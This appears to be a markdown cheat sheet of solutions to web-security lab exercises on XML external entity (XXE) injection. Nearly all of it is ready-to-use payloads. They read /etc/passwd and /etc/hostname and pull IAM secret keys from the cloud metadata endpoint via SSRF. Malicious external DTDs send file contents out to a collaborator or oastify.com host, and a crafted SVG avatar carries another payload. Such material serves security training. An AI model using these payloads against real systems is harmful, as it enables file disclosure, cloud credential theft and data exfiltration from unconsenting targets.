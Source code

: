 ## Exploiting XXE using external entities to retrieve files

Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

## Exploiting XInclude to retrieve files

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE to perform SSRF attacks

Insert the following external entity definition in between the XML declaration and the stockCheck element:

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
Iteratively update the URL in the DTD to explore the API until you reach `/latest/meta-data/iam/security-credentials/admin`. 
This should return JSON containing the SecretAccessKey. 

## Blind XXE with out-of-band interaction

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>

<!DOCTYPE stockcheck [<!ENTITY % h1z54 SYSTEM "http://5lrwsx6c6dlkgmtrewokp6zxooufic61.oastify.com">%h1z54; ]>
```

Replace the productId number with a reference to the external entity: &xxe;

## Blind XXE with out-of-band interaction via XML parameter entities
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

## Exploiting blind XXE to retrieve data via error messages

Exploit Server:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Between XML declaration and stockCheck:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```


## Exploiting blind XXE to exfiltrate data using a malicious external DTD

Exploit Server:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
Between XML declaration and stockCheck:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL (exploit server)"> %xxe;]>
```

## Exploiting XXE via image file upload

1) Create a local SVG image with the following content: 
```
## <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

2) Post a comment on a blog post, and upload this image as an avatar. 
3) When you view your comment, you should see the contents of the /etc/hostname file in your image.
